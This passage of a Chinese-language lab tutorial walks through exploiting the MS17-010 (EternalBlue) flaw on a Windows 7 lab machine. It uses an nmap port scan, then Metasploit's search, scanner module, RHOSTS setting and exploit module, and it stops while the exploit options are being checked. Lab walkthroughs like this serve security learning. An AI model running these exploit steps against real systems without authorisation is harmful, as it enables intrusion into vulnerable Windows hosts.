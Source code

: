 ![image-20220715202151205](https://i0.hdslb.com/bfs/album/aeef5d4af17a6dd98fcf912ccc9ea644cd286927.png)

### 2.3使用nmap进行端口测试，看完括号里再行动（win7防火墙一定要关闭，要不然连不上！！！）

![image-20220715203351126](https://i0.hdslb.com/bfs/album/486b3e39bfe7bb1753f8053782f97b121160f2e1.png)

看吧，连不上！

![image-20220715203829188](https://i0.hdslb.com/bfs/album/e09569bd1a76573b98b90277d94505c65d88d420.png)

上面箭头有down就是没打开，下面open就是打开了。

### 2.4打开msf

```
search ms17-010
```

![image-20220715204634733](https://i0.hdslb.com/bfs/album/2a691d954ebab9a8caf2636c5b116d865d89bd46.png)

### 2.5先嗅探目标（win7),我们这里使用第三个去嗅探

```
use 3
```

![image-20220715204904467](https://i0.hdslb.com/bfs/album/a792df2da651ff0a12af0c133ab49a06ae8763f0.png)

### 2.6使用options填写相关信息，yes必填，no不用填写，而发现yes前面缺少相关信息，

```
options
```

![image-20220715205131813](https://i0.hdslb.com/bfs/album/b83e435d5d1648dcfc534b9b8695d7ffa1a76ab3.png)

### 2.7补全相关信息（RHOSTS可以小写不影响）

```
set RHOSTS 192.168.110.201
```

![image-20220715205442067](https://i0.hdslb.com/bfs/album/4a3325d21f02446023d3352cbd4efeee8b515cf9.png)

### 2.8开始使用exp  (  use  大写不行)

```
use 0
```

![image-20220715205807821](https://i0.hdslb.com/bfs/album/70848db6895f86e60221fd29ba903910ecd97a93.png)

继续打开options检查
